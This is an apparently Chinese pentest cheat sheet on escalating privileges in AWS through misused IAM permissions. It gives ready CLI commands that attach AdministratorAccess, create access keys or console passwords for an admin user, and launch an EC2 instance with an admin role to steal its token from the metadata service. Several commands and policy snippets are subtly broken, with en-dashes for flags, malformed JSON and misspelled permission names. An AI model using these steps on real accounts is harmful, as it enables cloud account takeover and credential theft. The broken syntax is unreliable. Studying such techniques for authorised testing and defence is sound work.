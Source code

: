 	影子管理员Shadow Admin
	一旦您有权访问云用户，您需要查看是否可以升级您的权限。 在云中，权限提升是通过 IAM 完成的，通常是由具有某些权限集的用户引起的。 在 AWS 中，有 21 个公知的 IAM 权限可用于提权。
	● https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/
 #### iam:CreatePolicyVersion
	iam:CreatePolicyVersion 权限允许用户创建现有策略的新版本,如果您的用户附加了策略，您可以将“操作”更改为“*”，将“资源”更改为“*”，这样您就可以访问所有内容
	如：
	"Action": "iam:CreatePolicyVersion" 改为"Action": "iam:*"
	"Resource": "arn:aws:iam::*:policy/*"改为"Resource": "*"
	最后，您可以使用以下命令更新您的策略，为您提供管理员级别的访问权限：
> aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://path/to/administrator/policy.json –set-as-default
 #### iam:SetDefaultPolicyVersion2
	如果管理员不小心赋予了策略过多的权限，他们可能会使用权限较少的版本更新策略。具有 iam:SetDefaultPolicyVersion2 的用户可以选择哪个版本的策略处于活动状态。这允许用户通过激活具有更高权限的旧版本策略来潜在地提升他们的权限。例如，如果策略的版本 1 具有比版本 2 更高的权限，我们可以将策略回滚到版本 1，从而为该用户提供更高的权限，如下所示
	> aws iam set-default-policy-version --policy-arn arn:aws:iam::1231124:policy/VulnerablePolicy --version-id v1
 #### iam:PassRole and ec2:RunInstances
	如果用户具有 PassRole 和 RunInstances 权限，他们可以将权限提升到另一个角色。 PassRole 权限允许用户将角色传递给另一个 AWS 资源。请记住，角色可以被认为是机器等资源可以使用的用户，并且具有自己的权限集。接下来，RuneInstances 权限允许我们运行资源，特别是虚拟机 AKA EC2 实例。
	"Action":["iam:PassRole","ec2":RunInstances] 
	首先，您需要找到一个您也想升级的角色。 获得目标角色后，您需要启动一个附加了目标角色的 EC2 实例。 最后通过 SSH 进入 EC2 实例并查询元数据服务以窃取目标的 AWS 令牌。 使用以下命令创建附加了目标角色“admin”的 EC2 实例：
	> aws ec2 run-instances --image-id ami-1de55d875628d2fe0 --instance-type t2.micro --iam-instance-profile Name=admin --key-name "Public" --security-group-ids sg-c91s2ae8 --region us-east-1
	实例启动可能需要几分钟时间，但一旦启动，您可以 SSH 进入并点击元数据服务
 #### iam: CreateAccessKey
	iam:CreateAccessKey 权限可用于为其他用户创建访问密钥。访问密钥充当凭据，可用于以用户身份发出命令。
	如果策略的资源部分设置为“*”，同时拥有此权限集，我们实际上可能会危及环境中的每个用户。
	> aws iam create-access-key --user-name admin
	如上所示，我们为管理员用户创建了一个访问密钥。我们所要做的就是导入访问密钥，我们就可以开始了。
 #### iam:CreateLoginProfile 
	iam:CreateLoginProfile 权限用于为尚未设置控制台密码的用户创建控制台密码。拥有此权限使攻击者能够
	为目标创建一个密码，该密码可用于通过控制台登录。
	> aws iam create-login-profile --user-name admin --password Password123！ --no-password-reset-required
 #### iam:UpdateLoginProfile
	与 iam:CreateLoginProfile 类似，iam:UpdateLoginProfile 允许我们为用户设置控制台密码。唯一的区别是用户必须已经设置了控制台密码。
	> aws iam update-login-profile --user-name admin --password Password234！ --no-password-reset-required
 #### iam:AttachUserPolicy
	iam:AttachUserPolicy 权限使用户能够将策略附加到用户。如果将此权限附加到您的用户，您可能会将 AWS 托管 AdministratorAccess 策略附加到您的帐户，从而为您提供对云环境的管理员权限。
	> aws iam attach-user-policy --user-name target_username --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
 #### iam:AttachGroupPolicy
	iam:AttachGroupPolicy 权限的工作方式与 iam:AttachUserPolicy 相同，只是您将策略附加到组而不是用户。只需确保您是您附加该策略的组的一部分。
	> aws iam attach-group-policy --group-name target_group --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
 #### iam:AttachRolePolicy
	iam:AttachRolePolicy 权限的工作方式与 iam:AttachUserPolicy 和 iam:AttachGroupPolicy 相同，只是您将策略附加到角色。只需确保您的用户能够模拟该角色即可。
	> aws iam attach-role-policy --role-name target_role --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
 #### iam:PutUserPolicy
	此权限允许您创建或更新内联策略。如果设置了此权限，攻击者可以利用它添加具有访问管理员级别访问权限的策略，如下所示：
![image](/assets/Pentest_Note/master/img/907.png)

	接下来使用以下命令将其作为内联策略添加到目标用户。 执行后，该用户应具有对云环境的管理员级别访问权限
	> aws iam put-user-policy –user-name TARGET_USER –policy-name my_inline_policy –policy-document ./ADMIN_POLICY_TO_ADD.json
 #### iam:PutGroupPolicy
	此策略与 iam:PutUserPolicy 权限非常相似，只是它允许您将内联策略添加/更新到组而不是用户。同样，您需要创建一个具有管理员级别访问权限的策略，并将其作为内联策略添加到您的用户有权访问的组中。
	> aws iam put-group-policy –group-name GROUP_NAME –policy-name group_inline_policy –policy-document ./ADMIN_POLICY_TO_ADD.json
 #### iam:PutRolePolicy
	同样，此权限与 iam:PutUserPolicy 和 iam:PutGroupPolicy 非常相似。唯一的区别是这使您可以添加/更新角色的内联策略。创建一个管理员级别的策略并将其添加到您可以担任的角色中。
	> aws iam put-role-policy –role-name ROLE_NAME –policy-name role_inline_policy –policy-document ./ADMIN_POLICY_TO_ADD.json
 #### iam:AddUserToGroup
	此角色允许您将用户添加到组。攻击者可以通过将其用户添加到具有更高权限的组来滥用这一点。如果有一个具有管理员级别权限的组，请尝试将您的用户添加到其中，如果成功，您的用户也应该具有管理员级别权限。
	> aws iam add-user-to-group –group-name GROUP_NAME –user-name USER_NAME